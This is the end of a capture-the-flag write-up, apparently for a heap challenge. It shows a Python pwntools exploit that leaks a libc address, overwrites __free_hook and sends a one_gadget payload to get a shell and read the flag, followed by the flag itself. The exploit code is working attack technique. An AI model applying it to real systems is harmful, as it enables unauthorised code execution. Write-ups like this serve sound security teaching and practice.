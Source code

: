 ```python
    # important
    io.sendlineafter(b'command:', cyclic(0x20))

    log.info('allocating large string')
    io.sendlineafter(b'command:', cyclic(0x400))

    # fuzz remote
    # for i in range(0x2a38, 0x3000, 0x8):
    #     leak = int(read(i), 16)
    #     log.success('leak[%#x]: %#x', i, leak)
    
    # libc.address = int(read(0x1e60), 16) - 0x3ebca0 # local
    libc.address = int(read(0x2a60), 16) - 0x3ebca0 # remote

    # write(0x1660, (libc.sym['__free_hook'] - 0x10).to_bytes(8, 'little')) # local
    write(0x2260, (libc.sym['__free_hook'] - 0x10).to_bytes(8, 'little'))  # remote

    # fuzz remote
    # for i in range(0x1000, 0x1700, 0x8): 
    #     leak = int(read(i), 16)
    #     log.success('leak[%#x]: %#x', i, leak)

    one_gadgets = [0x4f2a5, 0x4f302, 0x10a2fc]
    # payload = cyclic(0x10) + p64(libc.sym['system'])
    payload = cyclic(0x10) + p64(libc.address + one_gadgets[1])
    io.sendlineafter(b'command:', payload)

    sleep(2)
    io.sendline('cat flag*')   

    log.success('heap: %#x', heap)
    log.success('libc: %#x', libc.address)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
Flag: _TBTL{uN1n73nDED\_20Lu720nS\_4R3\_4wl4y2\_W3LCOm3}_
{% endhint %}
